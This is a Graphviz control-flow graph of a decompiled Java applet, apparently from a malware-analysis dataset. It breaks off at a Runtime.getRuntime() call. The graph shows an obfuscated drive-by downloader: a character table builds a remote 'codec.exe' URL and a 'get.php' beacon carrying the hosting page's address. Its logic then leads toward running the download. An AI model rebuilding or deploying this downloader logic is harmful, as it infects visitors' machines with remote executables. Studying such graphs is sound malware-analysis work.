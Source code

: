 digraph "" {
    "r0 := @this: Java"
    "push 32"
    "r0 := @this: Java"->"push 32";
    "newarray"
    "push 32"->"newarray";
    "store.r $r8"
    "newarray"->"store.r $r8";
    "load.r $r8"
    "store.r $r8"->"load.r $r8";
    "push 0"
    "load.r $r8"->"push 0";
    "push \"a\""
    "push 0"->"push \"a\"";
    "arraywrite.r"
    "push \"a\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r8";
    "push 1"
    "load.r $r8"->"push 1";
    "push \"b\""
    "push 1"->"push \"b\"";
    "push \"b\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r8";
    "push 2"
    "load.r $r8"->"push 2";
    "push \"c\""
    "push 2"->"push \"c\"";
    "push \"c\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r8";
    "push 3"
    "load.r $r8"->"push 3";
    "push \"d\""
    "push 3"->"push \"d\"";
    "push \"d\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r8";
    "push 4"
    "load.r $r8"->"push 4";
    "push \"e\""
    "push 4"->"push \"e\"";
    "push \"e\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r8";
    "push 5"
    "load.r $r8"->"push 5";
    "push \"f\""
    "push 5"->"push \"f\"";
    "push \"f\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r8";
    "push 6"
    "load.r $r8"->"push 6";
    "push \"g\""
    "push 6"->"push \"g\"";
    "push \"g\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r8";
    "push 7"
    "load.r $r8"->"push 7";
    "push \"h\""
    "push 7"->"push \"h\"";
    "push \"h\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r8";
    "push 8"
    "load.r $r8"->"push 8";
    "push \"i\""
    "push 8"->"push \"i\"";
    "push \"i\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r8";
    "push 9"
    "load.r $r8"->"push 9";
    "push \"j\""
    "push 9"->"push \"j\"";
    "push \"j\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r8";
    "push 10"
    "load.r $r8"->"push 10";
    "push \"k\""
    "push 10"->"push \"k\"";
    "push \"k\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r8";
    "push 11"
    "load.r $r8"->"push 11";
    "push \"l\""
    "push 11"->"push \"l\"";
    "push \"l\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r8";
    "push 12"
    "load.r $r8"->"push 12";
    "push \"m\""
    "push 12"->"push \"m\"";
    "push \"m\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r8";
    "push 13"
    "load.r $r8"->"push 13";
    "push \"n\""
    "push 13"->"push \"n\"";
    "push \"n\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r8";
    "push 14"
    "load.r $r8"->"push 14";
    "push \"o\""
    "push 14"->"push \"o\"";
    "push \"o\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r8";
    "push 15"
    "load.r $r8"->"push 15";
    "push \"p\""
    "push 15"->"push \"p\"";
    "push \"p\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r8";
    "push 16"
    "load.r $r8"->"push 16";
    "push \"q\""
    "push 16"->"push \"q\"";
    "push \"q\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r8";
    "push 17"
    "load.r $r8"->"push 17";
    "push \"r\""
    "push 17"->"push \"r\"";
    "push \"r\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r8";
    "push 18"
    "load.r $r8"->"push 18";
    "push \"s\""
    "push 18"->"push \"s\"";
    "push \"s\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r8";
    "push 19"
    "load.r $r8"->"push 19";
    "push \"t\""
    "push 19"->"push \"t\"";
    "push \"t\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r8";
    "push 20"
    "load.r $r8"->"push 20";
    "push \"u\""
    "push 20"->"push \"u\"";
    "push \"u\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r8";
    "push 21"
    "load.r $r8"->"push 21";
    "push \"v\""
    "push 21"->"push \"v\"";
    "push \"v\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r8";
    "push 22"
    "load.r $r8"->"push 22";
    "push \"w\""
    "push 22"->"push \"w\"";
    "push \"w\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r8";
    "push 23"
    "load.r $r8"->"push 23";
    "push \"x\""
    "push 23"->"push \"x\"";
    "push \"x\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r8";
    "push 24"
    "load.r $r8"->"push 24";
    "push \"y\""
    "push 24"->"push \"y\"";
    "push \"y\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r8";
    "push 25"
    "load.r $r8"->"push 25";
    "push \"z\""
    "push 25"->"push \"z\"";
    "push \"z\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r8";
    "push 26"
    "load.r $r8"->"push 26";
    "push \":\""
    "push 26"->"push \":\"";
    "push \":\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r8";
    "push 27"
    "load.r $r8"->"push 27";
    "push \"/\""
    "push 27"->"push \"/\"";
    "push \"/\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r8";
    "push 28"
    "load.r $r8"->"push 28";
    "push \".\""
    "push 28"->"push \".\"";
    "push \".\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r8";
    "push 29"
    "load.r $r8"->"push 29";
    "push \"=\""
    "push 29"->"push \"=\"";
    "push \"=\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r8";
    "push 30"
    "load.r $r8"->"push 30";
    "push \"&\""
    "push 30"->"push \"&\"";
    "push \"&\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r8";
    "push 31"
    "load.r $r8"->"push 31";
    "push \"-\""
    "push 31"->"push \"-\"";
    "push \"-\""->"arraywrite.r";
    "new java.lang.StringBuffer"
    "arraywrite.r"->"new java.lang.StringBuffer";
    "dup1.r"
    "new java.lang.StringBuffer"->"dup1.r";
    "specialinvoke <java.lang.StringBuffer: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuffer: void <init>()>";
    "push \"http://privatetube.onlinetubes24.com/codec\""
    "specialinvoke <java.lang.StringBuffer: void <init>()>"->"push \"http://privatetube.onlinetubes24.com/codec\"";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"
    "push \"http://privatetube.onlinetubes24.com/codec\""->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r8";
    "load.r $r8"->"push 28";
    "arrayread.r"
    "push 28"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r8";
    "load.r $r8"->"push 4";
    "push 4"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r8";
    "load.r $r8"->"push 23";
    "push 23"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r8";
    "load.r $r8"->"push 4";
    "push 4"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>";
    "store.r r1"
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"->"store.r r1";
    "load.r r0"
    "store.r r1"->"load.r r0";
    "virtualinvoke <Java: java.net.URL getDocumentBase()>"
    "load.r r0"->"virtualinvoke <Java: java.net.URL getDocumentBase()>";
    "virtualinvoke <java.net.URL: java.lang.String toString()>"
    "virtualinvoke <Java: java.net.URL getDocumentBase()>"->"virtualinvoke <java.net.URL: java.lang.String toString()>";
    "store.r r2"
    "virtualinvoke <java.net.URL: java.lang.String toString()>"->"store.r r2";
    "store.r r2"->"new java.lang.StringBuffer";
    "new java.lang.StringBuffer"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuffer: void <init>()>";
    "specialinvoke <java.lang.StringBuffer: void <init>()>"->"load.r $r8";
    "load.r $r8"->"push 7";
    "push 7"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r8";
    "load.r $r8"->"push 19";
    "push 19"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r8";
    "load.r $r8"->"push 19";
    "push 19"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r8";
    "load.r $r8"->"push 15";
    "push 15"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r8";
    "load.r $r8"->"push 26";
    "push 26"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r8";
    "load.r $r8"->"push 27";
    "push 27"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r8";
    "load.r $r8"->"push 27";
    "push 27"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r8";
    "load.r $r8"->"push 5";
    "push 5"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r8";
    "load.r $r8"->"push 14";
    "push 14"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r8";
    "load.r $r8"->"push 23";
    "push 23"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r8";
    "load.r $r8"->"push 23";
    "push 23"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r8";
    "load.r $r8"->"push 24";
    "push 24"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r8";
    "load.r $r8"->"push 18";
    "push 18"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r8";
    "load.r $r8"->"push 14";
    "push 14"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r8";
    "load.r $r8"->"push 5";
    "push 5"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r8";
    "load.r $r8"->"push 19";
    "push 19"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r8";
    "load.r $r8"->"push 22";
    "push 22"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r8";
    "load.r $r8"->"push 0";
    "push 0"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r8";
    "load.r $r8"->"push 17";
    "push 17"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r8";
    "load.r $r8"->"push 4";
    "push 4"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r8";
    "load.r $r8"->"push 28";
    "push 28"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r8";
    "load.r $r8"->"push 13";
    "push 13"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r8";
    "load.r $r8"->"push 4";
    "push 4"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r8";
    "load.r $r8"->"push 19";
    "push 19"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r8";
    "load.r $r8"->"push 27";
    "push 27"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r8";
    "load.r $r8"->"push 6";
    "push 6"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r8";
    "load.r $r8"->"push 4";
    "push 4"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r8";
    "load.r $r8"->"push 19";
    "push 19"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r8";
    "load.r $r8"->"push 28";
    "push 28"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r8";
    "load.r $r8"->"push 15";
    "push 15"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r8";
    "load.r $r8"->"push 7";
    "push 7"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r8";
    "load.r $r8"->"push 15";
    "push 15"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"->"new java.lang.StringBuffer";
    "new java.lang.StringBuffer"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuffer: void <init>()>";
    "specialinvoke <java.lang.StringBuffer: void <init>()>"->"load.r $r8";
    "load.r $r8"->"push 18";
    "push 18"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r8";
    "load.r $r8"->"push 8";
    "push 8"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r8";
    "load.r $r8"->"push 19";
    "push 19"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r8";
    "load.r $r8"->"push 4";
    "push 4"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r8";
    "load.r $r8"->"push 29";
    "push 29"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "load.r r2"
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r2";
    "load.r r2"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r8";
    "load.r $r8"->"push 30";
    "push 30"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r8";
    "load.r $r8"->"push 20";
    "push 20"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r8";
    "load.r $r8"->"push 18";
    "push 18"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r8";
    "load.r $r8"->"push 4";
    "push 4"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r8";
    "load.r $r8"->"push 17";
    "push 17"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r8";
    "load.r $r8"->"push 13";
    "push 13"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r8";
    "load.r $r8"->"push 0";
    "push 0"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r8";
    "load.r $r8"->"push 12";
    "push 12"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r8";
    "load.r $r8"->"push 4";
    "push 4"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r8";
    "load.r $r8"->"push 29";
    "push 29"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "push \"adm\""
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"push \"adm\"";
    "push \"adm\""->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r8";
    "load.r $r8"->"push 30";
    "push 30"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r8";
    "load.r $r8"->"push 20";
    "push 20"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r8";
    "load.r $r8"->"push 17";
    "push 17"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r8";
    "load.r $r8"->"push 11";
    "push 11"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r8";
    "load.r $r8"->"push 29";
    "push 29"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "load.r r1"
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>";
    "staticinvoke <Java: java.lang.String bz(java.lang.String,java.lang.String)>"
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"->"staticinvoke <Java: java.lang.String bz(java.lang.String,java.lang.String)>";
    "push \"-_-\""
    "staticinvoke <Java: java.lang.String bz(java.lang.String,java.lang.String)>"->"push \"-_-\"";
    "virtualinvoke <java.lang.String: java.lang.String[] split(java.lang.String)>"
    "push \"-_-\""->"virtualinvoke <java.lang.String: java.lang.String[] split(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String[] split(java.lang.String)>"->"store.r r1";
    "store.r r1"->"load.r r1";
    "load.r r1"->"push 2";
    "push 2"->"arrayread.r";
    "push \"G\""
    "arrayread.r"->"push \"G\"";
    "ifcmpeq.r goto return"
    "push \"G\""->"ifcmpeq.r goto return";
    "push null"
    "ifcmpeq.r goto return"->"push null";
    "store.r $r165"
    "push null"->"store.r $r165";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"
